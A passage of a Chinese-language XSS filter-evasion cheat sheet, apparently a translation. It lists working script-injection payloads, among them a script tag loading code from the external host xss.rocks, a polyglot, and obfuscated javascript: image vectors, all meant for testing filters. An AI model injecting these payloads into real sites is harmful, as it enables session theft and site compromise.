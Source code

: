 ### 2.1. 无过滤的基本 XSS 测试

这是一个常规的 XSS
注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：

``` {.html}
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

### 2.2. XSS 定位器(Polygot)

如下是一个`Polygot test XSS payload`，此测试将在多个上下文中执行，包括
html，脚本字符串，js 和 url。感谢 Gareth Heyes 提出。

``` {.html}
 javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

### 2.3. 使用 JavaScript 命令实现的图片 XSS

图片注入使用 JavaScript 命令实现（IE7.0 不支持在图片上下文中使用
JavaScript 命令，
但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：

``` {.html}
<img src="javascript:alert('XSS');" />
```

### 2.4. 无分号无引号

``` {.html}
<IMG SRC=javascript:alert('XSS')>
```

### 2.5. 不区分大小写的 XSS 攻击向量

``` {.html}
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

### 2.6. HTML 实体

必须有分号才可生效

``` {.html}
<img src='javascript:alert("XSS")' />
```

### 2.7. 重音符混淆

如果你的 JavaScript
代码中需要同时使用单引号和双引号，那么可以使用重音符（\`）来包含
JavaScript
代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：

``` {.html}
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
